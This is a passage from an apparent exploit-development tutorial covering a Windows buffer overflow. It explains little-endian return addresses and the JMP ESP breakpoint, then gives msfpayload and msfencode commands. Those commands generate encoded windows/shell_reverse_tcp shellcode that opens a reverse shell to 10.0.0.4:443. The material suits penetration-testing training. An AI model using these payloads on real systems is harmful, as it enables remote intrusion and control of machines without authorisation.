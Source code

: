 - The return address is written the wrong way around, as the x86 architecture stores addresses in little endian format, where the low-order byte of the number is stored in memory at the lowest address, and the high-order byte at the highest address.
- Using F2, we place a breakpoint on the return address, and run our exploit again, and we see output similar to the following.

![The JMP ESP Breakpoint is Reached](./../images/44.png)

### Generating Shellcode with Metasploit

- The msfpayload command can autogenerate over 275 shellcode payload options

```Shell
> msfpayload –l
```

- We will use a basic payload called __windows/shell_reverse_tcp__, which acts much like a reverse shell netcat payload.

```Shell
# The msfpayload script will generate C formatted (C parameter) shellcode
> msfpayload windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 C
```

- That was easy enough, however we can immediately identify bad characters in this shellcode, such as null bytes.
- We will need to encode this shellcode using the Metasploit Framework __msfencode__ tool.
- We will also need to provide the msfencode script the specific bad characters we wish to avoid, in the resulting shellcode. Notice that msfencode needs raw shellcode (R parameter) as input.

```Shell
> msfpayload windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 R | msfencode -b "\x00\x0a\x0d"
```

- The resulting shellcode will send a reverse shell to 10.0.0.4 on port 443, contains no bad characters, and is 341 bytes long.
